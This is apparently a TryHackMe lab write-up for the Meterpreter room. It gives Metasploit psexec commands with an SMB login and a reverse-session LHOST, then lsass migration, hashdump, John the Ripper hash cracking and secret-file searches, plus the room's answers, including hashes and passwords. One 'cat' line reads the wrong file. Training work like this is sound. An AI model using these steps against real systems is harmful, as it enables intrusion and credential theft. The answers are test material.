---
msf:
  - "Metasploit: Meterpreter\r"
Date: 13 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.30.141
---
---
### description: 
Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

[link of the room](https://tryhackme.com/room/meterpreter)
## Task 5 Post-Exploitation Challenge
```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.30.141
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.8.45.125
msf > run
```


#### What is the computer name?

```bash
sysinfo
```

`ACME-TEST`
#### What is the target domain?
FLASH
#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```


`speedster`
#### What is the NTLM hash of the jchambers user?

```bash
ps lsass.exe
migrate 756
hashdump
```


`69596c7aa1e8daee17f8e78870e25a5c`
#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



`Trustno1`
#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

`C:\Program Files (x86)\Windows Multimedia Platform\`
#### What is the Twitter password revealed in the "secrets.txt" file?

`KDSvbsw3849!`
#### Where is the "realsecret.txt" file located?
```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

`C:\inetpub\wwwroot\`
#### What is the real secret?

`The Flash is the fastest man alive`


